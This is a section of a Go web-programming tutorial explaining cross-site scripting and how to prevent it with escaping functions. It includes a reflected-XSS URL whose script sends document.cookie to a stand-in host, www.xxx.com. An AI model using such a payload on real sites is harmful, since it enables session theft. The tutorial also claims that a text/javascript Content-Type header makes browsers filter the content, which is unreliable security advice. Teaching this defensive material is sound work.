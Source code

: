 # 9.3 XSS attacks

With the development of Internet technology, web applications are often packed with dynamic content to improve user experience. Dynamic content is content that reacts and changes according to user requests and actions. Dynamic sites are often susceptible to cross-site scripting attacks (often referred to by security experts in its abbreviated form, XSS), something which static websites are completely unaffected by.

## What is XSS?

As mentioned, the term XSS is an acronym for Cross-Site Scripting, which is a type of attack common on the web. In order not to confuse it with another common web acronym, CSS (Cascading Style Sheets), we use an `X` instead of a `C` for the cross in cross-site scripting. XSS is a common web security vulnerability which allows attackers to inject malicious code into webpages. Unlike most types of attacks which generally involve only an attacker and a victim, XSS involves three parties: an attacker, a client and a web application. The goal of an XSS attack is to steal cookies stored on clients by web applications for the purpose of reading sensitive client information. Once an attacker gets ahold of this information, they can impersonate users and interact with websites without their knowledge or approval.

XSS attacks can usually be divided into two categories: one is a stored XSS attack. This form of attack arises when users are allowed to input data onto a public page, which after being saved by the server, will be returned (unescaped) to other users that happen to be browsing it. Some examples of the types of pages that are often affected include comments, reviews, blog posts and message boards. The process often goes like this: an attacker enters some html followed by a hidden `<script>` tag containing some malicious code,  then hits save. The web application saves this to the database. When another user requests this page, the application queries this tainted data from the database and serves the page to the user. The attacker's script then executes arbitrary code on the client's computer. 

The other type is a reflected XSS attack. The main idea is to embed a malicious script directly into the query parameters of a URL address. A server that immediately parses this data into a page of results and returns it (to the client who made the request) unsanitized, can unwittingly cause the client's computer to execute this code. An attacker can send a user a legitimate looking link to a trusted website with the encoded payload; clicking on this link can cause the user's browser to execute the malicious script.

XSS present the main means and ends as follows:

- Theft of cookies, access to sensitive information.
- The use of embedded Flash, through crossdomain permissions, can also be used by an attacker to obtain higher user privileges. This also applies for other similar attack vectors such as Java and VBScript. 
- The use of iframes, frames, XMLHttpRequests, etc., can allow an attacker to assume the identity of a user to perform administrative actions such as micro-blogging, adding friends, sending private messages, and other routine operations. A while ago, the Sina microblogging platform suffered from this type of XSS vulnerability.
- When many users visit a page affected by an XSS attack, the effect on some smaller sites can be comparable to that of a DDoS attack.

## XSS principles

Web applications that return requested data to users without first inspecting and filtering it can allow malicious users to inject scripts (typically embedded inside HTML within `<script>` tags) onto other users' browsers. When this malicious code is rendered on a user's browser without first having been escaped from, the user's browser will interpret this code: this is the definition of an XSS attack, and this type of mistake is the leading cause of XSS vulnerabilities.

Let's go through the process of a reflective XSS attack. Let's say there's a website that outputs a user's name according to the URL query parameters; access the following URL `http://127.0.0.1/?name=astaxie` will cause the server to output the following:

	hello astaxie

Let's say we pass the following parameter instead, accessing the same url: `http://127.0.0.1/?name=<script>alert('astaxie,xss')</script>`. If this causes the browser to produce an alert pop-up box, we can confirm that the site is vulnerable to XSS attacks. So how do malicious users steal cookies using the same type of attack? 

Just like before, we have a URL: 

`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`

By clicking on this URL, you'd be sending the current cookie to the specified site: `www.xxx.com`. You might be wondering, why would anybody click on such a strange looking URL in the first place? While it's true that this kind of URL will make most people skeptical, if an attacker were to use one of the many popular URL shortening services to obscure it, would you still be able to see it? Most attackers would obfuscate the URL in one way or another, and you'd only know the legitimacy of the link after clicking on it. However by this point, cookie data will have already been sent to the 3rd party website, compromising your sensitive information. You can use tools like Websleuth to audit the security of your web applications for these types of vulnerabilities. 

For a more detailed analysis on an XSS attack, have a look at the article: "[ Sina microblogging XSS event analysis ] (http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)"

## How to prevent XSS

The answer is simple: never trust user input, and always filter out all special characters in any input data you may receive. This will eliminate the majority of XSS attacks.

Use the following techniques to defend against XSS attacks:

- Filter special characters

One way to avoid XSS is to filter user-supplied content. The Go language provides some HTML filtering functions in its `text/template` packge such as `HTMLEscapeString` and `JSEscapeString`, to name a few.

- Specify the content type in your HTTP headers 

`w.Header().Set("Content-Type","text/javascript")`

This allows client browsers to parse the response as javascript code (applying the neccessary filters) instead of rendering the content in an unspecified and potentially dangerous manner.

## Summary

Introducing XSS vulnerabilities is a very real hazard when developing web applications. It is important to remember to filter all data, especially before outputting it to clients; this is now a well-established means of preventing XSS.

## Links

- [Directory](build-web-application-with-golang-en.md)
- Previous section: [Filter inputs](09.2.md)
- Next section: [SQL injection](09.4.md)
